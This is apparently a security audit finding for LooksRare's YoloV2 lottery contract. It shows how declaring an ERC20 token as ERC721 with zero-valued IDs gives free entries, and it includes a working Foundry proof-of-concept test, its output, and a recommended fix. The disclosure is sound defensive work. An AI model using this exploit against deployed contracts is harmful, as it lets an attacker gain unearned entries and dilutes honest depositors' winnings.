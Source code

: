 Amateur Cloth Whale

high

# User can get free entries if the price of any whitelisted ERC20 token is greater than the round's `valuePerEntry`

## Summary
Lack of explicit separation between ERC20 and ERC721 deposits allows users to gain free entries for any round given there exists a whitelisted ERC20 token with price greater than the round's `valuePerEntry`.

## Vulnerability Detail
When depositing tokens, users can specify whether the token type is ERC20 or ERC721. While the token address specified is checked against a whitelist, the token type specified is unrestricted.
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1092-L1094
```solidity
                if (isCurrencyAllowed[tokenAddress] != 1) {
                    revert InvalidCollection();
                }
```
This means a user can specify ERC721 as the token type even if the token being deposited is an ERC20 token. 
A deposit of this nature does not need signed Reservoir price data if the price is already specified (ie. the token was deposited before as an ERC20 token).
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1096-L1100
```solidity
                if (singleDeposit.tokenType == YoloV2__TokenType.ERC721) {
                    if (price == 0) {
                        price = _getReservoirPrice(singleDeposit);
                        prices[tokenAddress][roundId] = price;
                    }
```
As long as the price of the token is greater than `round.valuePerEntry`, the `entriesCount` will be non-zero. At the time of writing, using the `0.01 ETH` value used on the currently deployed Yolo contract, this is around USD$25.
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1102-L1105
```solidity
                    uint256 entriesCount = price / round.valuePerEntry;
                    if (entriesCount == 0) {
                        revert InvalidValue();
                    }
```
The user can specify an arbitrary length array for `singleDeposit.tokenIdsOrAmounts` filled with zeros (given this doesn't exceed the max deposit limit). This is what allows free entries by specifying zero transfers.
When the token is batch transferred by the transfer manager, a low level call to `transferFrom` on the specified token address is made.
https://github.com/LooksRare/contracts-transfer-manager/blob/9c337db4b9a8a197353393e98e9120b69e8d1fc6/contracts/TransferManager.sol#L205-L210
```solidity
            } else if (tokenType == TokenType.ERC721) {
                for (uint256 j; j < itemIdsLengthForSingleCollection; ) {
                    ...
                    _executeERC721TransferFrom(items[i].tokenAddress, from, to, itemIds[j]);
```
https://github.com/LooksRare/contracts-libs/blob/a6dbdc6a546fc80bcc3a18884ea3e5224cdc0547/contracts/lowLevelCallers/LowLevelERC721Transfer.sol#L24-L34
```solidity
    function _executeERC721TransferFrom(address collection, address from, address to, uint256 tokenId) internal {
        ...
        (bool status, ) = collection.call(abi.encodeCall(IERC721.transferFrom, (from, to, tokenId)));
        ...
    }
```
The function signature of `transferFrom` for ERC721 and ERC20 is identical, so this will call `transferFrom` on the ERC20 contract with `amount = 0` (since 'token ids' specified in `singleDeposit.tokenIdsOrAmounts` are all `0`). Consequently, the user pays nothing and the transaction executes successfully (as long as the ERC20 token does not revert on zero transfers).

Paste the test below into `Yolo.deposit.t.sol` with `forge-std/console.sol` imported. It demonstrates a user making 3 free deposits (in the same transaction) using the MKR token (ie. with zero MKR balance). The token used can be substituted with any token with price > `valuePerEntry = 0.01 ETH` (which is non-rebasing/non-taxable and has sufficient liquidity in their /ETH Uniswap v3 pool as specified in the README).

<details>
<summary>PoC</summary>

```solidity
function test_freeDeposit() public {
        // setup MKR token
        address MKR = 0x9f8F72aA9304c8B593d555F12eF6589cC3A579A2;

        vm.prank(owner);
        priceOracle.addOracle(MKR, 3000);

        address[] memory currencies = new address[](1);
        currencies[0] = MKR;
        vm.prank(operator);
        yolo.updateCurrenciesStatus(currencies, true);

        uint256 mkrAmt = 1 ether;

        // deposit MKR to ensure price is already set for the round
        // this could be made by the same user making the free deposits with minimal token amount
        deal(MKR, user4, mkrAmt);

        IYoloV2.DepositCalldata[] memory dcd = new IYoloV2.DepositCalldata[](1);
        dcd = new IYoloV2.DepositCalldata[](1);
        dcd[0].tokenType = IYoloV2.YoloV2__TokenType.ERC20;
        dcd[0].tokenAddress = MKR;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = mkrAmt;
        dcd[0].tokenIdsOrAmounts = amounts;

        _grantApprovalsToTransferManager(user4);

        vm.startPrank(user4);
        IERC20(MKR).approve(address(transferManager), mkrAmt);
        yolo.deposit(1, dcd);
        vm.stopPrank();

        // now deposit MKR as ERC721
        // user doesn't need MKR balance to deposit
        assertEq(IERC20(MKR).balanceOf(user5), 0);

        dcd[0].tokenType = IYoloV2.YoloV2__TokenType.ERC721;
        // we can use an arbitrary amount of tokens (so long as we don't exceed max deposits), but we use 3 here
        amounts = new uint256[](3);
        dcd[0].tokenIdsOrAmounts = amounts;
        // we don't need a floor price config if the price has already been set

        _grantApprovalsToTransferManager(user5);

        vm.prank(user5);
        yolo.deposit(1, dcd);

        IYoloV2.Deposit[] memory deposits = _getDeposits(1);

        (, , , , , , , uint256 valuePerEntry, , ) = yolo.getRound(1);
        uint256 mkrPrice = yolo.prices(MKR, 1);
        // last currentEntryIndex should be 4x since first depositor used 1e18 MKR,
        // and the free depositor effectively used 3e18 MKR
        assertEq(deposits[3].currentEntryIndex, (mkrPrice / valuePerEntry) * 4);

        console.log("Standard deposit");
        console.log("Entry index after first deposit: ", deposits[0].currentEntryIndex);
        console.log("Free deposits");
        console.log("Entry index after second deposit: ", deposits[1].currentEntryIndex);
        console.log("Entry index after third deposit: ", deposits[2].currentEntryIndex);
        console.log("Entry index after fourth deposit: ", deposits[3].currentEntryIndex);
    }
```
Output from running the test below.
```shell
Running 1 test for test/foundry/Yolo.deposit.t.sol:Yolo_Deposit_Test
[PASS] test_freeDeposit() (gas: 725484)
Logs:
  Standard deposit
  Entry index after first deposit:  88
  Free deposits
  Entry index after second deposit:  176
  Entry index after third deposit:  264
  Entry index after fourth deposit:  352
```
</details>

## Impact
Users can get an arbitrary number of entries into rounds for free (which should generally allow them to significantly increase their chances of winning). In the case the winner is a free depositor, they will end up with the same profit as if they participated normally since they have to pay the fee over the total value of the deposits (which includes the price of their free deposits). If the winner is an honest depositor, they still have to pay the full fee including the free entries, but they are unable to claim the value for the free entries (since the `tokenId` (or `amount`) is zero). They earn less profit than if everyone had participated honestly.

## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1084-L1161

## Tool used

Manual Review

## Recommendation
Whitelist tokens using both the token address and the token type (ERC20/ERC721).
